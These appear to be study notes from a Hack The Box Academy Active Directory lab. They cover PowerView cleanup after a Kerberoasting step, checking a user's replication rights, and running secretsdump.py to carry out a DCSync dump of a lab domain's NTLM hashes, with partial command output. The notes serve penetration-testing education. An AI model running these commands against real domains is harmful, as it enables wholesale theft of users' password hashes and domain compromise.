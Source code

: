 Kerberoasting with Rubeus

| Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose                | PowerView tool used to remove the fake Service Principal Name created during the attack from a Windows-based host.                       |
| ------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose | PowerView tool used to remove a specific user (damundsent) from a specific security group (Help Desk Level 1) from a Windows-based host. |
| ConvertFrom-SddlString                                                                                  | PowerShell cmd-let used to covert an SDDL string into a readable format. Performed from a Windows-based host.                            |

## **DCSync**

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

First lets check if the user have Replication Rights

* `Get-DomainUser -Identity adunn |select samaccountname,objectsid,memberof,useraccountcontrol |fl` → View adunn’s group Membership. Copy the objectsid of the user.
* `PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"` → set variable `sid`
* `PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl` → finally check the users Replication Rights

```powershell
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

```

## **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```
[!bash!]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist